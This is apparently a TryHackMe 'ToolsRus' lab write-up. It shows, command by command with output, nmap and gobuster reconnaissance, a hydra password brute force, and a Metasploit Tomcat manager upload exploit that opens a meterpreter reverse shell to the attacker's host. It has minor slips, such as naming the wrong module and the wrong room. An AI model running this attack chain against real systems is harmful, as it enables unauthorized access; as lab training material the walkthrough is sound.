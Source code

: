 # ToolsRus
> 4lch3my | March 09, 2023
-------------------
#### Practise using tools such as dirbuster, hydra, nmap, nikto and metasploit
#### [Room Link](https://tryhackme.com/room/toolsrus)

## Tasks
##### 1. ToysRus
  Deploy the machine with the Start Machine button, also either deploy your [Attack Box](https://tryhackme.com/access) OR Connect to [OpenVPN](https://tryhackme.com/access) and deploy your personal KALI machine.
<br>

To start, I use [nmap] which is default option on the perosnal Kali install I have. We start with a basic command `nmap -sC -sV -A MACHINE_IP`.
<br>

The -sC flag runs scripts against open ports as well to determine if there are external/common vulnerabilities that we can use outright. The -sV probes all open ports it finds to determine if we can get the service/version information. -A outputs in agressive mode, so we can follow along with the commands and enumeration.
In our NMAP results we get:

```
Starting Nmap 7.60 ( https://nmap.org ) at 2023-03-09 00:50 GMT
Nmap scan report for ip-MACHINE_IP.eu-west-1.compute.internal (MACHINE_IP)
Host is up (0.00066s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:99:f5:94:27:2c:18:9e:ad:03:ef:e8:2e:33:48:40 (RSA)
|   256 4c:73:c5:35:de:02:26:07:fe:dd:92:ed:38:2c:3f:7c (ECDSA)
|_  256 49:d0:53:8b:7c:99:a6:21:7d:40:6c:74:9d:b7:90:80 (EdDSA)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
MAC Address: 02:5B:94:C2:14:BD (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.60%E=4%D=3/9%OT=22%CT=1%CU=40054%PV=Y%DS=1%DC=D%G=Y%M=025B94%TM
OS:=64092D51%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=109%TI=Z%CI=I%TS=8)
OS:SEQ(SP=107%GCD=1%ISR=109%TI=Z%CI=RD%II=I%TS=8)OPS(O1=M2301ST11NW7%O2=M23
OS:01ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5=M2301ST11NW7%O6=M2301ST11)
OS:WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=
OS:6903%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N
OS:)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0
OS:%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7
OS:(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=
OS:0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```
We see 4 open ports: `22 - SSH`, `80 - HTTP`, `1234 - HTTP` & `8009 - ajp13` what is an Apache service running. Before we visit the webpages lets run a quick adn dirty `GoBuster` scan with: `gobuster dir -u http://MACHINE_IP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`on port 80:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://MACHINE_IP/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/03/08 23:56:41 Starting gobuster
===============================================================
/guidelines (Status: 301)
/protected (Status: 401)
/server-status (Status: 403)
===============================================================
2023/03/08 23:57:10 Finished
===============================================================
```

And on port `1234`: `gobuster dir -u http://MACHINE_IP:1234/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://MACHINE_IP:1234/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/03/09 01:00:14 Starting gobuster
===============================================================
/docs (Status: 302)
/examples (Status: 302)
/manager (Status: 302)
===============================================================
2023/03/09 01:00:46 Finished
===============================================================
```
Time to visit all the directorys. Let's go!
<br>

Fist the main page: `http://MACHINE_IP/`. Empty!

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20ToolsRUs/images/ToolsRUs.PNG?raw=true)

Next will be: `http://MACHINE_IP/guidelines/`. And we found our username!

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20ToolsRUs/images/bob.PNG?raw=true)

And finally: `http://MACHINE_IP/protected`. We get stopped by an authentication popup asking for a username:password combination. Time for some good old bruteforcing with `hydra`.
<br>

We already know our user, `bob`, `MACHINE_IP`, and `/protected/` directory so we can start a `http-get` attack against our machine with the wordlist of our choise. As this is a `THM machine`, we suspect that the password will be located within the usual `rockyou.txt` file. To to run the attack: `hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.241.174 http-get /protected/`.

```
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (http://www.thc.org/thc-hydra) starting at 2023-03-09 00:11:04
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-get://10.10.241.174:80//protected/
[80][http-get] host: 10.10.241.174   login: bob   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2023-03-09 00:11:17
```

Only after a few seconds we find our `password` for the user `bob`. Time to log in to the password protected section of this web server.

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20ToolsRUs/images/rabbit_hole.PNG?raw=true)

And that's the end of that page. Moving on to the `http://MACHINE_IP:1234/`, where we are greated with the `Apache Tomcat/7.0.88` default page.

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20ToolsRUs/images/Tomcat.PNG?raw=true)

After a quick `Google` or `ChatGPT` seearch we can see that this app is quite old and has multiple `CVE's` dedicated to it. Seems like the website admin did not update this for a long time. Making our lifes easier I see... Moving on to actually getting on to this machine and grabing the final flag. As instructed by the box, we will use `Metasploit` to answer the last two questions. 
<br>

After switching to the `Metasploit Console` with the command `mfconsole`, we can search for Tomcat vulnerabilities in the databased stored in the app: `msf6 > search Tomcat`

```
Matching Modules
================

   #   Name                                                            Disclosure Date  Rank       Check  Description
   -   ----                                                            ---------------  ----       -----  -----------
   0   auxiliary/dos/http/apache_commons_fileupload_dos                2014-02-06       normal     No     Apache Commons FileUpload and Apache Tomcat DoS
   1   exploit/multi/http/struts_dev_mode                              2012-01-06       excellent  Yes    Apache Struts 2 Developer Mode OGNL Execution
   2   exploit/multi/http/struts2_namespace_ognl                       2018-08-22       excellent  Yes    Apache Struts 2 Namespace Redirect OGNL Injection
   3   exploit/multi/http/struts_code_exec_classloader                 2014-03-06       manual     No     Apache Struts ClassLoader Manipulation Remote Code Execution
   4   auxiliary/admin/http/tomcat_ghostcat                            2020-02-20       normal     Yes    Apache Tomcat AJP File Read
   5   exploit/windows/http/tomcat_cgi_cmdlineargs                     2019-04-10       excellent  Yes    Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability
   6   exploit/multi/http/tomcat_mgr_deploy                            2009-11-09       excellent  Yes    Apache Tomcat Manager Application Deployer Authenticated Code Execution
   7   exploit/multi/http/tomcat_mgr_upload                            2009-11-09       excellent  Yes    Apache Tomcat Manager Authenticated Upload Code Execution
   8   auxiliary/dos/http/apache_tomcat_transfer_encoding              2010-07-09       normal     No     Apache Tomcat Transfer-Encoding Information Disclosure and DoS
   9   auxiliary/scanner/http/tomcat_enum                                               normal     No     Apache Tomcat User Enumeration
   10  exploit/linux/local/tomcat_ubuntu_log_init_priv_esc             2016-09-30       manual     Yes    Apache Tomcat on Ubuntu Log Init Privilege Escalation
```

The 6th `exploit` on the list `/multi/http/tomcat_mgr_deploy` seems to be exactly what we need. Let's switch to it and configure it:

```
msf6 > use exploit/multi/http/tomcat_mgr_uplo
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/tomcat_mgr_upload) > set RHOSTS MACHINE_IP
RHOSTS => MACHINE_IP
msf6 exploit(multi/http/tomcat_mgr_upload) > set RPORT 1234
RPORT => 1234
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpPassword bubbles
HttpPassword => bubbles
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpUsername bob
HttpUsername => bob
```
Now after it is configured correctly, we can run it:

```
msf6 exploit(multi/http/tomcat_mgr_upload) > run

[*] Started reverse TCP handler on HOST_IP:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying l1BnwvSyQFkgg2c8bgBYXr...
[*] Executing l1BnwvSyQFkgg2c8bgBYXr...
[*] Undeploying l1BnwvSyQFkgg2c8bgBYXr ...
[*] Sending stage (58851 bytes) to MACHINE_IP
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 1 opened (HOST_IP:4444 -> MACHINE_IP:41378) at 2023-03-09 00:45:54 +0000

meterpreter >
```

Success we have access! We can now grab the flag and complete this room!

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20ToolsRUs/images/flag.PNG?raw=true)

#### Thank you for checking out my writeup about the THM room: RootMe! If you are interested in other writeups of mine or interetsed in some of my codeing work, please feel free to look around my GitHub page! Happy hacking! - 4lch3myí